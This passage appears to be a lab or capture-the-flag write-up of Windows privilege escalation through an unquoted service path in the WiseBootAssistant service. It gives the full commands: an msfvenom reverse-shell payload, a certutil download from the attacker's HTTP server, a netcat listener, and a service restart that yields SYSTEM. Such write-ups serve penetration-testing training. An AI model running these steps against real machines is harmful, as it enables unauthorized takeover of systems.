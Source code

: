 ### winpeas

we see that WiseBootAssistant is running with Admin privs and without quoted paths and has a space detected. This is an `unquoted service path` which is a way to priv esc in Windows

This is the path we will be exploiting:
`c:\program files (x86)\wise\wise care 365\boottime.exe`

We can insert `wise.exe` where `wise care 365` is

---

### generate and run payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.120.129 LPORT=5555 -f exe > Wise.exe
```

host an http server with the payload, and use certutil to grab it

```
certutil.exe -urlcache -split -f http://192.168.120.129/Wise.exe Wise.exe
```

Start your netcat listener

```
nc -lvnp 5555
```


We will need to restart the service with the unquoted path

```
sc stop WiseBootAssistant
sc start WiseBootAssistant
```

Should now have system
